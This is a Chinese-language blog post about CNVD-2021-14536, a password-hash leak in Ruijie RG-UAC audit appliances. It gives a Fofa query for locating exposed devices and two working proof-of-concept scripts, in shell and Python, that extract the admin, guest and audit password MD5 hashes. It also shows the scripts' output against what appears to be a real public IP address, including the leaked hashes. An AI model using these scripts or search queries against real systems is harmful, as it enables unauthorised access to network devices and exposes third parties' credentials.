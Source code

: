 ```yaml
---
title: Ruijie_RG_UAC
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - Exploit
date: 2021-03-08 15:36:33
top:
tags:
layout:
---
```

编写进度
- [x] 



## CNVD-2021-14536
锐捷RG-UAC统一上网行为管理审计系统存在信息泄漏，攻击者通过网页源代码可间接获取管理用户账户和密码的MD5值，解密后可登陆管理后台


[Fofa](https://fofa.so/)查询关键字 `title="RG-UAC登录页面" && body="admin"`

![锐捷登陆页面](../images/ruijie-1.jpg)
`Command+u`查看网页源码，`Command+f`搜索password即可看到密码的MD5

Burp数据包
![锐捷响应包](../images/ruijie-2.jpg)

进行解密即可

```zsh
❯ time ./Ruijie.sh https://61.191.151.185:4443/
admin: "password":"0e563b8ae893f8f78f943fd72f1425b8"
guest: "password":"fcf41657f02f88137a1bcf068a32c0a3"
audit: "password":"d33542b8458db8cabd9843fe7c1e8784"
./Ruijie.sh https://61.191.151.185:4443/  0.02s user 0.01s system 5% cpu 0.507 total

~ via 🐍 v2.7.16
❯ time ./Ruijie_get_passwd.py https://61.191.151.185:4443/
[o]Target:https://61.191.151.185:4443/
super_amdin's password of MD5: 0e563b8ae893f8f78f943fd72f1425b8
./Ruijie_get_passwd.py https://61.191.151.185:4443/  0.14s user 0.04s system 25% cpu 0.680 total

```

## POC-1 shell脚本
```zsh
# !/bin/bash
# File Name: Ruijie_get_password.sh
#
# Author: Mr.Frame
# Date: Mon Mar  8 16:10:52 CST 2021
# Description:
# CNVD-2021-14536 Ruijie 锐捷RG-UAC统一上网行为管理审计系统 

# 核心语句: awk -F "[,]"  'NR==148,/password/{print "admin: "$5 "\n"  "guest: " $20 "\n" "audit: " $35 }'  aa.txt

Resp=$(mktemp)

curl -k -sS "$1" >> $Resp

awk -F "[,]"  'NR==148,/password/{print "admin: "$5 "\n"  "guest: " $20 "\n" "audit: " $35 }'  $Resp

rm $Resp
```

## POC-2 python脚本
```python3
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# 2021-03-12
# Author: Mr.Frame 
# Description:
#      CNVD-2021-14536 锐捷 RG-UAC 统一上网行为管理审计系统信息泄露漏洞 
#Usage:
#      python3 ruijie_get_passwd  <url>

import requests
import urllib3
import re

def Ruijie_get_passwd(url):
    "Check CNVD-2021-14536 of Target"
    url=url
    headers={
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36"
    }

    
    urllib3.disable_warnings() # 关闭ssl警告
    try:
        
        response=requests.get(url=url,headers=headers,verify=False,timeout=2)
    except Exception as e:
        print("\033[31m[x]Connection failed\033[0m")
        print(e.__str__())

    if response.status_code == 200 and "super_admin" in response.text and "password" in response.text:
            password=(re.search('[a-fA-F0-9]{32}', response.text)).group()
            print("\033[32m[o]Target:{}\033[0m \nsuper_amdin's password of MD5: \033[31m{}\033[0m".format(url,password))
    else:
        print("\033[32mtarget:{} is safe\033[0m")


if __name__ == '__main__':
    import sys
    if sys.argv.__len__() != 2:
        print("python3 ruijie_get_passwd  https://x.x.x.x:<port>")
    else:
        Ruijie_get_passwd(sys.argv[1])

```






参考：
[CNVD-2021-14536 锐捷 RG-UAC 统一上网行为管理审计系统信息泄露漏洞 ](https://mp.weixin.qq.com/s/4Lx3N1yOrFQbySzIuVjRcQ)

